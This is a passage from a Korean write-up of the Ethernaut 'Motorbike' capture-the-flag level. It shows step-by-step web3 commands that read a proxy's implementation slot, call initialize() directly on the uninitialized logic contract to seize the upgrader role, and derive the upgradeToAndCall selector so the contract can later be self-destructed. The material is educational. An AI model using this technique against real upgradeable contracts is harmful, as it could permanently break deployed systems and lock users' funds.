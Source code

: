 selfdestruct가 delegatecall로 실행되기 때문에 실제로 파괴되는 컨트랙트는 로직컨트랙트가 되어버린다. 따라서 로직컨트랙트(Engine)은 파괴가 되고 , 이 문제의 프록시 컨트랙트에는 로직 컨트랙트를 업그레이드 할 수 있는 함수가 존재하지 않으므로 이 프록시 컨트랙트도 사실상 무용지물이 되어버린다.

# 공격

우리는 프록시와 상호작용할 수 있으므로 프록시 컨트랙트의 _IMPLEMENTATION_SLOT 에 있는 로직 컨트랙트 주소를 알아낼 수 있다.

```solidity
await web3.eth.getStorageAt(contract.address,'0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')
'0x0000000000000000000000006337edc5b6010cbab9a279b06f95c14387fec7a0'
------------------------------------------------------------------
impl='0x6337edc5b6010cbab9a279b06f95c14387fec7a0'
'0x6337edc5b6010cbab9a279b06f95c14387fec7a0'
```

실행해야 될 initialize()는 이더넛에서 abi를 제공해주고 있지 않으므로 트랜잭션의 함수 시그니쳐를 데이터에 담아서 실행시켜야 한다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a40d61b3-a6bc-4b88-a709-2a14bdccdde3/Untitled.png)

시그니쳐 값을 확인해보면 0x8129fc1c 임을 알 수 있다. 인자는 없으므로 시그니쳐 값만 데이터로 보내면 된다.

```solidity
data = '0x8129fc1c'
```

data로 저장해놓고 

```solidity
await web3.eth.sendTransaction({from:player, to: impl , data:data})
```

로직 컨트랙트의 initialize()를 실행시키는 트랜잭션을 발생시킨다.

그럼 이제 로직 컨트랙트의 스토리지에 upgrader와 horsepower이 상태변수 슬롯0,1에 저장되어 있는지 확인하자.

```solidity
await web3.eth.getStorageAt(impl,0)
'0x0000000000000000000083b26d6a3d3fabd9f0a5f1d69dca1ce6cc4ea39a0001'
await web3.eth.getStorageAt(impl,1)
'0x00000000000000000000000000000000000000000000000000000000000003e8'
```

의도한대로 로직 컨트랙트의 슬롯 0 upgrader에 내 메타마스크 주소가 들어가 있다. 프록시를 거치지 않고 로직 컨트랙트에 직접 upgradeToAndCall 함수를 실행시키면 로직 컨트랙트의 스토리지 슬롯0을 기반으로 권한이 있는지 검사하게 된다.

따라서 직접 실행시키기 위해 upgradeToAndCall(address,bytes memory)시그니쳐를 얻고자 하였으나 [https://sig.eth.samczsun.com/](https://sig.eth.samczsun.com/) 에서 안뜨길래 직접 컨트랙트를 통해서 확인하였다.

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.5;

contract test{
    bytes public result;

    function encode() public {
        result = abi.encodeWithSignature("upgradeToAndCall(address,bytes)");
    }
}

--------------------------------------------------
result:
bytes: 0x4f1ef286
```
